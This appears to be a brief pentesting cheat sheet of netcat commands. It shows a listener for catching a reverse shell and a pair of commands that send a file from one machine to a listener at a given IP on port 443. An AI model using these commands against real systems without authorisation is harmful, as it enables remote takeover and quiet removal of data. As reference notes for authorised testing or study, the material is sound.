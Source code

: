 
# Reverse Shell Listener
nc -vlnp 4444


## Transferring file using Netcat:
Sender           nc 10.8.56.2 443 < file
Reciever         sudo nc -lvnp 443 > file